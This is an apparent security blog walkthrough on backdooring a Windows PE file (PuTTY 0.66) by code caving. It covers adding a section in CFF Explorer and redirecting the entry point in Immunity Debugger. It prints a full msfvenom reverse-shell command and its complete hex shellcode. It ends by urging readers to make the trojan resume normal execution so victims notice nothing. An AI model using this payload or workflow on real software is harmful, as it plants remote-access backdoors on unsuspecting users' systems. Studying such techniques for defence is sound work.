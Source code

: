 ```yaml
---
layout: single
title: Code caving & backdooring Windows PE files
---
```


Code caving is a technique deployed by threat actors to run malicious shellcode within the valid PE space of a regular program. It's a technique where an actor discovered a un-used or non-optimized part of code within a compiled program that they can use via hijacking the execution flow to point to this location that has shellcode allocated in it. Which can lead to the application executing a malicious shellcode payload.

### Thanks Wikipedia
> A code cave is a series of null bytes in a process's memory. The code cave inside a process's memory is often a reference to a section of the code's script functions that have the capacity for the injection of custom instructions. For example, if a script's memory allows for five bytes and only three bytes are used, then the remaining two bytes can be used to add additional code to cript without making significant changes. 

---

This walkthrough will be utilizing an older version of Putty, Putty v0.66, which can be downloaded from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/releases/0.66.html).

----

**Our exploitation & backdooring workflow**

Our workflow is as follows. 

1. We add another section to the binary and fill it up with empty space, also give it the name of our choosing.
2. Find the entry point for the binary
3. Find the address of your newly created section in the binary
4. Write your msfvenom shellcode payload to the empty created section
5. Re-write the empty point as a JMP to the malicious section.
6. Have the shellcode return execution back to the normal flow
6. Patch and save the binary

----

**Binary section analysis & creation**

We can start by opening up putty.exe within CFF Explorer to view the PE data. CFF Explorer will give us plenty of details about the binary, the important part is the sections tab. This technique is to add a malicious section to the binary. 

![code caving 1](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_1.png)

Open up the section headers tab and we need to add a new header, this header will be utilized for malicious purposes. Go to `Section Headers [x]` > Right-click and select `Add Section (Empty Space)`, and adjust the size of the section to 1000 spaces. Then name your new section header. I will be naming it `.shell`. Adding these spaces will allow the program to be sen as a legitimate application instead of just throwing you an error and crashing if you don't have data. This blank data will also be utilized soon.

![code caving 2](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_2.png)

----

**Debugging the application**

Now we can open up our new binary in Immunity Debugger. If you run the application it will show "Program entry point" on the bottom left of Immunity, this is what we want to hijack to point to our soon to be malicious `.shell` segment.

![code caving 3](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_3.png)

From here you copy the `.shell` section headers address and edit the Program entry point to a `JMP <SECTION ADDRESS>`. 

![code caving 4](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_4.png)

![code caving 5](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_5.png)

Now you can press `F7` and step into the newly edited JMP call, this will lead to the new section we created.

![code caving 6](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_6.png)

Now you also want to edit the new section in Immunity and add a `PUSHFD` to the start of your malicious new section. Assemble it when done.

----

**Malicious payload creation**

Now you can generate your msfvenom payload, use a `EXITFUNC=seh` to ensure it handles proper exiting to add to the stability and reliability of your shell. Generate it in hex format since it's going to be directly pasted into the binary/machine code.

```
└─▪ ./msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.81 LPORT=9999 -f hex EXITFUNC=seh
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of hex file: 648 bytes
fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b5
92001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b6159
5a51ffe05f5f5a8b12eb8d5d6833320000687773325f54684c772607ffd5b89001000029c454506829806b00ffd5505050504050405068ea0fdfe0ffd5976
a05680a000051680200270f89e66a1056576899a57461ffd585c0740cff4e0875ec68f0b5a256ffd568636d640089e357575731f66a125956e2fd66c74424
3c01018d442410c60044545056565646564e565653566879cc3f86ffd589e04e5646ff306808871d60ffd5bbfe0e32ea68a695bd9dffd53c067c0a80fbe07
505bb4713726f6a0053ffd5
```
You you can now copy past this into Immunity Debugger into your new malicious section.

![code caving 7](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_7.png)

----

**Obtain a shell**

You can run it within Immunity, but if you want to export the now backdoored file, you just need to save the patched file and run it to obtain that sweet reverse shell.

![code caving 8](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_8.png)

I do wonder if this would get detected by anti-virus.... This technique is old and highly detected, an attacker would need to further protect their binary from AV detection if they wanted this to actually work.

![code caving 9](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/code_caving_9.png)

----

**Conclusion**

This post covered a fairly simple technique for backdooring a Windows PE binary, using execution flow highjacking and PE section create, we can plant a malicious shellcode payload within a normal binary, have it execute our shell, and give an attacker remote access to the victims system via them running a binary they think is supposed to be normal.

*Further research*

As a challenge to anyone who reads this, try to have the malicious payload redirect it's execution flow back to the normal application so it loads as a normal binary should, this will add the elusion that nothing wrong is occurring when a victim runs the application.
